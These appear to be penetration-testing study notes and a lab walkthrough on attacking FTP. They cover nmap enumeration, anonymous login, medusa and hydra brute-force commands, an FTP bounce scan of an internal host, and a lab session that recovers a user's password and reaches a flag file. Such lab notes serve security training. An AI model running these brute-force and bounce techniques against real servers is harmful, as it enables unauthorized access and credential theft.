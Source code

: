 # Attacking FTP

## Enumeration

sudo nmap -sC -sV -p 21 $TARGET

-sC includes the ftp-anon Nmap script

## Misconfigurations

ftp $TARGET
anonymous
no password

ls
cd
get
mget (multiple files)
put
mput (multiple files)
help

## Protocol Specifics Attacks

### Brute Forcing

medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h $TARGET -M ftp

-U : list of usernames

### FTP Bounce Attack

Nmap -b flag can be used to perform an FTP bounce attack

nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

10.10.110.213 : server which exposes FTP
172.17.0.2 : server which is not exposed but FTP server can targets on 80 port


## LAB

nmap -sV -oA nmap $TARGET --stats-every=5s

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
53/tcp   open  domain      ISC BIND 9.16.1 (Ubuntu Linux)
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
2121/tcp open  ftp         ProFTPD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

sudo nmap -sC -sV -p 2121 $TARGET

ftp $TARGET 2121
Connected to 10.129.85.176.
220 ProFTPD Server (InlaneFTP) [10.129.85.176]
Name (10.129.85.176:root): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:

ftp> get users.list
ftp> get passwords.list

medusa -U users.list -P passwords.list -h $TARGET -M ftp -n 2121

hydra -L users.list -P passwords.list ftp://$TARGET -s 2121

[2121][ftp] host: 10.129.85.176   login: robin   password: 7iz4rnckjsduza7

ftp $TARGET 2121
Connected to 10.129.85.176.
220 ProFTPD Server (InlaneFTP) [10.129.85.176]
Name (10.129.85.176:root): robin
331 Password required for robin
Password:
7iz4rnckjsduza7
230 User robin logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-rw-r--   1 robin    robin          27 Apr 18  2022 flag.txt
